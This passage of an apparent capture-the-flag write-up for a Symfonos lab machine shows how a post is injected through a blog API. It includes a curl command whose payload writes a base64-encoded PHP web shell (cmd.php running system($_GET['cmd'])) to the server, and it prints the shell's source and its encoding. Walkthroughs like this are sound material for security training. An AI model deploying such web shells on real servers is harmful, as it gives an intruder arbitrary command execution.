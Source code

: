 - Indicates that the post was created successfully.
  - Shows the creation date (`created_at`), the new post's ID (`id`: 3), and the post content (`text`: "probando").
  - Includes information about the user who created the post (`username`: "achilles").

**Visualization in the Browser**

- The newly added post content ("probando") is visible in the browser.
- This confirms that the post was successfully created via the API and is displayed correctly in the blog's interface.

![](/assets/post/Symfonos/curl4.png)

```bash 
curl -s -X POST "http://192.168.1.167:5000/ls2o4g/v1.0/post/" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." -d '{"text":"file_put_contents(\'cmd.php\', base64_decode(\'PD9waHA...'))"}'
```
**Análisis del Comando `curl`**

**Texto del Post**:
- Se utiliza la función `file_put_contents` en PHP para crear un archivo llamado `cmd.php` en el servidor.
- La función `base64_decode` decodifica un contenido en Base64 que, al decodificarlo, se convierte en un código PHP.

**Contenido del Archivo `data`**
```php
<?php
system($_GET['cmd']);
?>
```
This PHP file executes any command provided through the `cmd` parameter in an HTTP GET request. This means that if someone accesses the file and passes a command through the URL, the server will execute that command.
 
 
**Base64 Encoding Process**

In the terminal, the following command is used to encode the content of the `data` file into Base64:

```bash
base64 -w 0 data; echo
```
This produces the following Base64 output:

PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Pgo=

**Next Step:**
We test if the file was loaded correctly.

![](/assets/post/Symfonos/php5.png)
